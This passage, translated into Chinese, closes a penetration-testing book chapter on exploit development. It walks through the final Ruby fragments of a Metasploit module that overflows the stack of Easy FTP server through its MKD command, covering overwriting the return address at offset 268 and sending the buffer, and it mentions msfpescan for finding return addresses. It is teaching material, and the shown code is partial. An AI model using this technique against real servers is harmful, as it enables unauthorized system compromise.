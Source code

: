 以下代码修复了堆栈数据，并在保存我们的 shellcode 缓冲区的返回地址上进行了短跳转：

```
 # Patch the original stack data into the fixer stub 
buf[10, 4] = buf[268, 4] 

print_status("Overwriting part of the payload with target      address...") 
buf[268,4] = [target.ret].pack('V') # put return address @ 268      bytes 
```

最后，使用前面的代码，我们使用易受攻击的 MKD FTP 后身份验证命令将我们的最终缓冲区发送到特定目标。由于 Easy FTP 服务器中的 MKD 命令容易受到基于堆栈的缓冲区溢出的影响，`buf`命令将溢出目标堆栈，并通过执行我们的有效负载来利用目标系统：

```
print_status("Sending exploit buffer...") 
send_cmd( ['MKD', buf] , false) 
```

使用以下代码关闭您的连接：

```
handler 
disconnect 
end 

end 
```

Metasploit 配备了有用的工具，例如`msfpescan`用于 Win32 和`msfelfscan`用于 Linux 系统，这些工具可能会帮助您找到特定目标的返回地址。例如，要从您选择的应用程序文件中找到一个可持续的返回地址，请键入`# msfpescan -p targetapp.ext`。

# 摘要

在本章中，我们指出了目标开发所需的几个关键领域。首先，我们概述了弱点研究，强调了渗透测试人员需要具备必要的知识和技能，这反过来又对弱点评估产生了影响。然后，我们提供了一个在线存储库列表，您可以从中获取许多公开披露的漏洞和利用代码。在最后一部分，我们演示了一个名为 Metasploit 框架的高级利用工具包的实际用途。所提供的练习纯粹旨在通过战术利用方法探索和理解目标获取过程。此外，我们通过分析框架中示例利用代码的每个步骤，解释了对利用开发的见解，以帮助您理解基本的骨架和构建策略。

在下一章中，我们将讨论提权和使用各种工具和技术维持访问的过程，以及在获得目标后它如何有益。

